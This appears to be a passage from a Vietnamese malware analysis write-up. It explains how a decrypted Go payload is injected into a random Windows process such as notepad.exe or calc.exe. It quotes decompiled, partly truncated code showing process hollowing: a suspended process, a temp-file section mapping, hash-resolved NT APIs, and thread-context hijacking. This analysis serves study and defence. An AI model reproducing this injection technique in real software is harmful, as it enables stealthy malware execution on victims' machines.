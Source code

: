 Một file exe thì chỉ là run `cmd.exe` và khi debug chúng mình không thấy `anime` chạy file `cmd.exe` , vậy nên khả năng cao file exe mình decrypt được cũng chỉ là một file lừa :shit:

**Cách `go` file đc inject vào các process**

Sau khi được decrypt, file golang được inject vào tất cả các process random trong những process sau: `["write.exe", "notepad.exe", "calc.exe", "werfault.exe", "cscript.exe"]`

Trong script `au_1`  ta thấy, có một đoạn chương trình sẽ chạy random một trong 5 file và lấy ra: hProcess, hThread, ProcessID, ThreadID. Sau đó truyền đến cho file `anime` xử lý.

```cpp
    Local $tprocess = $runtime_systemstack($TAGPROCESS_INFORMATION)
    Local $tstartup = $runtime_systemstack($TAGSTARTUPINFO)
    $runtime_newgoroutine('', "C:\\Windows\\System32\\" & getanimepath(), 0x0, 0x0, 0x0, 0x4, 0x0, 0x0, $tstartup, $tprocess)
    Local $h_pr_left = $runtime_panic($tprocess, "hProcess")
    Local $h_th_left = $runtime_panic($tprocess, "hThread")
    Local $t_pid_left = $runtime_panic($tprocess, "ProcessID")
    Local $t_tid_left = $runtime_panic($tprocess, "ThreadID")
        // truncated...
Func getanimepath()
    Local $anime_list[] = ["write.exe", "notepad.exe", "calc.exe", "werfault.exe", "cscript.exe"]
    Return $anime_list[Random(0x0, UBound($anime_list) + -1)]
EndFunc    ; -> getanimepath
```

Đoạn code xử lý inject trong file `anime`. Chương trình ghi data sau khi decrypt ra một file trong `temp` và lại được map vào một vùng trong process mới, ngay sau đó file trong `temp` cũng được xóa đi luôn.

```cpp
__int64 __fastcall inject_gofile_to_process(__int64 a1, __int64 a2, __int64 a3, __int64 a4)
{
// truncated...
  v24 = sub_7FF7B1AF4B90(a4);
  v23 = sub_7FF7B1AF4BB0(v29);
  v21 = write_temp_file(v24, v23); // <-- write data to temp file (format: TH*.tmp)
  if ( v21 )
  {
    if ( v21 != -1 )
    {
      v20 = 0;
      v19 = 0i64;
      v18 = 0i64;
      NtMapViewOfSection = calc_hash_lookup_api(-1908709007, -720004204);
      v20 = (NtMapViewOfSection)(v21, v26, &v18, 0i64, 0i64, 0i64, &v19, 1, 0, 2);
      if ( !v20 || v20 == 1073741827 )
      {
        v17[1] = v24;
        v17[0] = v18;
        v16 = *(v24 + 60) + v24;
        v15 = *(v16 + 40) + v18;
        memset(Dst, 0, 0x4D0ui64);
        v12 = 1048578;
        NtGetContextThread = calc_hash_lookup_api(-1908709007, -382344301);
        NtGetContextThread(v27, Dst);
        v13 = v15;
        NtSetContextThread = calc_hash_lookup_api(-1908709007, 1765139349);
        NtSetContextThread(v27, Dst);
        v10 = v14;
        v9 = v14 + 16;
        NtWriteVirtualMemory = calc_hash_lookup_api(-1908709007, -988771134);
        NtWriteVirtualMemory(v26, v9, v17, 8i64, v22);	// <-- Write from file to virtual memory in each process
        return v10;
      }
```
